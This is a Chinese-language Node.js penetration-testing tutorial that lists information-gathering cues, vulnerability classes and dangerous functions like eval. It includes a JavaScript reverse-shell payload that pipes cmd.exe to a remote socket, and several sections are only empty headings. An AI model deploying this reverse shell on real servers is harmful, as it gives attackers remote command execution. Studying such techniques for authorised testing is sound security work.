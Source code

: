 # Pentest Node.js 应用

> 文章内容取自：
> - https://resources.infosecinstitute.com/topic/penetration-testing-node-js-applications-part-1/
> - https://github.com/jesusprubio/awesome-nodejs-pentest

Node.js是构建于google chrome v8 引擎之上的服务器端语言，可用于事件驱动的、非阻塞I/O、面向数据密集应用的程序构建。它运行在单一线程服务器上，也就意味着任何有意无意的DoS攻击会杀死服务器，使大量客户端离线，所以最好使用多个负载均衡实例一起工作。

下面我们讨论一些node.js的相关漏洞，并指出如何识别和利用它们。

## 信息收集

类似其它web应用渗透测试过程，对于node.js ，要查找任何含有下列内容的信息：
- cookies，特别是含有 `connect.sid` 的cookie键名
- server headers
- X-powered-By headers，其值可能会泄露当前应用运行在Express 框架上。

## 漏洞分析和利用

需要查看下列类型的漏洞:
- Server Side Code Injection
- System Command Injection
- Regex DOS
- HTTP Parameter Pollution
- Unprotected Routes
- Global Namespace Pollution
- Cross Site Scripting
- Insecure Components
- Secure Code Review

### Server Side Code Injection

node.js中也有危险函数：`eval`，`setTimeOut`，`setInterval`、`parseInt` 等等，都可能造成服务器端代码注入。

### 反弹shell

可以使用下列代码得到反弹shell
```js
function rev(host,port){
var net = require(“net”);
var cp = require(“child_process”);
var cmd = cp.spawn(“cmd.exe”, []);
var client = new net.Socket();
client.connect(port, host, function(){
        client.write(“Connectedrn”);

client.pipe(cmd.stdin);

cmd.stdout.pipe(client);

cmd.stderr.pipe(client);

        client.on(‘exit’,function(code,signal){

            client.end(“Disconnectedrn”);

        });

        client.on(‘error’,function(e){

            setTimeout(rev(host,port),5000);

        })

});

return /a/;

};rev(“127.0.0.1”,4444);
```

### 系统命令执行
对node.js应用进行代码审计，非常重要的是检查来自`child_process`模块中的函数应用，因为这个模块里的函数包含了生成进程、执行系统命令等很多功能。

### 正则DoS
正则表达式DoS主要发生在所谓的 灾难回溯（Catastrophic Backtracking）上，意思是正则引擎搜索用户输入的特定的模式时引发无限的重复。

### HTTP 参数污染

### 未保护的路由

### 固化未保护的路由

## 参考

https://nodejs.org/en/download/
https://github.com/OWASP/NodeGoat
https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/